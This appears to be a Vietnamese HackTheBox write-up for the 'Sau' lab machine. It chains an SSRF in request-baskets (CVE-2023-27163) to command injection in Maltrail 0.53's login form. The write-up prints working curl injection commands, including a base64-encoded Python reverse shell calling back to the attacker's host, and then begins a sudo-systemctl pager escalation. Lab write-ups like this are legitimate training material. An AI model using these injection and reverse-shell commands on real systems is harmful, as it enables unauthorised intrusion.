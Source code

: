 ```yaml
---
title: Sau HTB Writeup - Hackthebox
categories:
- CTF Writeup
- HackTheBox
tags:
- CVE-2023-27163
date: '2023-11-21 11:30:00'
published: true
---
```


```bash
nmap -p- -sCV -A 10.10.11.224 -oN Sau
```

![Sau-HTB](/posts/Sau-HTB/Untitled.png)

Có 2 port đang mở

- 22/tcp ssh
- 55555/tcp

Và 2 port đang bị chặn: 80/tcp và 8338/tcp.

![http://10.10.11.224:55555](/posts/Sau-HTB/Untitled%201.png)

http://10.10.11.224:55555

port 55555 đang chạy 1 dịch vụ web, cụ thể 1 trang Request Baskets để bắt các gói tin http. 

![Sau-HTB](/posts/Sau-HTB/Untitled%202.png)

Trang này sử dụng request-baskets version 1.2.1. Search google phát hiện cho đến v1.2.1 thì có tồn tại lỗ hổng SSRF (**[CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3#file-cve-2023-27163))**

Ban đầu, nmap quét được 2 cổng 80 và 8338 đã bị chặn, khả năng đây là dịch vụ nội bộ nên tui sẽ post /api/baskets/ với payload sau:

![Sau-HTB](/posts/Sau-HTB/Untitled%203.png)

Truy cập baskets với payload vừa tạo, sau đó nó sẽ forward tới port 80.

![Sau-HTB](/posts/Sau-HTB/Untitled%204.png)

eoz xấu tệ hại, có lẽ js css linking bị lỗi. Không quan tâm lắm, thứ chúng ta cần quan tâm là cái mũi tên góc trái phía dưới kìa. Là **M**altrail (v**0.53**), có lỗ hổng cực kì nghiêm trọng, tại trang login có thể khai thác RCE thông qua param `username`

PoC: https://github.com/spookier/Maltrail-v0.53-Exploit

```bash
curl -X POST 'http://10.10.11.224:55555/lewlew/login' --data 'username=;`curl 10.10.14.42:4444 `'
```

![Sau-HTB](/posts/Sau-HTB/Untitled%205.png)

Vậy là đã chứng minh được code của mình được inject và thực thi thành công. Tiếp theo, tạo payload reverse shell và inject.

![Sau-HTB](/posts/Sau-HTB/Untitled%206.png)

```bash
curl -X POST 'http://10.10.11.224:55555/lewlew/login' --data 'username=;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuNDIiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=" | base64 -d | sh`'
```

![Sau-HTB](/posts/Sau-HTB/Untitled%207.png)

## Leo Root

```bash
sudo -l
```

![Sau-HTB](/posts/Sau-HTB/Untitled%208.png)

Chạy lệnh với sudo

```bash
sudo /usr/bin/systemctl status trail.service
```

![Sau-HTB](/posts/Sau-HTB/Untitled%209.png)

output có vẻ giống với lệnh `less`

![Sau-HTB](/posts/Sau-HTB/Untitled%2010.png)

![Sau-HTB](/posts/Sau-HTB/Untitled%2011.png)